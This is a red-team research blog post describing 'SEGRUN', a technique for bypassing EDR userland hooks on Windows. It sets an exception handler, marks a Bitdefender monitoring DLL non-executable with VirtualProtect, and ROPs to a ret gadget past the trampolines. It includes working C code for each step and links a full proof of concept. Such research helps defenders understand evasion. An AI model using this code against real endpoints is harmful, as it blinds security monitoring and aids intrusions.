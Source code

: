 ```yaml
---
layout: post
title: "SEGRUN: Userland unhooking abusing exception handlers"
categories: research
tags: redteam
date: 2024-11-26 19:49:00 -0600
author: ikerl
---
```


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:

![](segrun1.png)

1. Hooked Function Execution: When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL:

![](segrun2.png)

2. Triggered Exception: An exception is raised as this memory region is marked as non-executable:

![](segrun3.png)

3. Exception Handling and ROP: The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.

![](segrun4.png)

By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: https://github.com/ikerl/segrun
